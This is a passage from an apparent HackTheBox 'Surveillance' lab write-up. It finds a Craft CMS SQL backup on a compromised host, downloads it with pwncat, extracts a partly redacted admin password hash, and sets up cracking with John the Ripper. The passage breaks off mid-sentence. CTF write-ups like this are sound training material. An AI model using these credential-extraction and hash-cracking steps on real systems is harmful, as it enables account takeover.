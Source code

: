 
# matthew

Now we can take a look at some webserve's file.<br>
In fact in `/var/www/html/craft/storage/backups` we can see that there is an interesting file:
```bash
ls -la /var/www/html/craft/storage/backups
```
output:
```bash
total 28
drwxrwxr-x 2 www-data www-data  4096 Oct 17 20:33 .
drwxr-xr-x 6 www-data www-data  4096 Oct 11 20:12 ..
-rw-r--r-- 1 root     root     19918 Oct 17 20:33 surveillance--2023-10-17-202801--v4.4.14.sql.zip
```
it is a backup file that i downloaded with pwncat as follows:
```bash
Ctrl + d
downaload /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip /home/kali/htb/surveillance/surveillance.sql.zip
```
Now i can unzip it locally and see the content of it:
```bash
cd /home/kali/htb/surveillance/
unzip surveillance.sql.zip
strings surveillance.sql | grep -i 'users'
```
output:
```bash
[...]
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22dd[REDACTED]5c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
[...]
```
We can see that we have a sha256 hash of user matthew, that is also among the box users!.
we could try to crackit by running:
```bash
echo '39ed84b22dd[REDACTED]5c675770ec' > matthew.hash
jhon matthew.hash -w=/usr/share/wordlists/rockoyou.txt
```
Since i always try to go for the low-hanging fruits i searched the hash on crackstation, and got this:
	